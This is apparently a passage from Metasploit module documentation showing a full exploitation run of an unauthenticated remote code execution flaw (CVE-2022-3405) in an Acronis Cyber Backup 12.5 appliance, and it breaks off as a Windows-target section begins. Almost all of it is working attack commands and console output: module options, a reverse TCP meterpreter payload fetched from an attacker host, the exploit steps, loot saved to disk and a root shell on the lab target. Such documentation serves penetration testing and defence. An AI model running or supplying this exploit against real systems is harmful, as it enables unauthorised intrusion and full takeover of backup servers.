 ```msf
```
### Acronis Cyber Backup 12.5 build 14330 VMware appliance - Linux target
```msf
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set target 0
target => 0
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set FETCH_SRVHOST 192.168.201.8
FETCH_SRVHOST => 192.168.201.8
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] Acronis Cyber Protect/Backup 12.5.14330 - VULNERABLE
[*] Retrieve first online target registered at the Acronis Cyber Protect/Backup appliance.
[+] Configuration details are successfully saved in json format to /root/.msf4/loot/20241023123539_default_192.168.201.6_acronis.cyber.pr_943568.bin
[*] Found online target matching your target setting Unix/Linux Command.
[+] hostId: 345C3F1E-92C3-4E92-8EF8-AC6BF136BB83
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.F70D1B08-5097-4CE5-8E22-F9E0DB75401F@345C3F1E-92C3-4E92-8EF8-AC6BF136BB83.disks
[*] type: machine
[*] hostname: AcronisAppliance-AC319
[*] IP: 192.168.201.6
[*] OS: GNU/Linux
[*] ARCH: linux
[*] ONLINE: true
[*] Import backup plan with payload for target with hostId: 345C3F1E-92C3-4E92-8EF8-AC6BF136BB83.
[*] Executing Unix/Linux Command with payload cmd/linux/http/x64/meterpreter/reverse_tcp
[+] Backup plan is successful removed.
[*] Sending stage (3045380 bytes) to 192.168.201.6
[*] Meterpreter session 22 opened (192.168.201.8:4444 -> 192.168.201.6:60862) at 2024-10-23 12:35:44 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.201.6
OS           : CentOS 7.4.1708 (Linux 3.10.0-693.11.6.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/lib/Acronis/mms
meterpreter >
```
### Acronis Cyber Backup 12.5 build 14330 VMware appliance - Windows target
```msf
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set target 1
```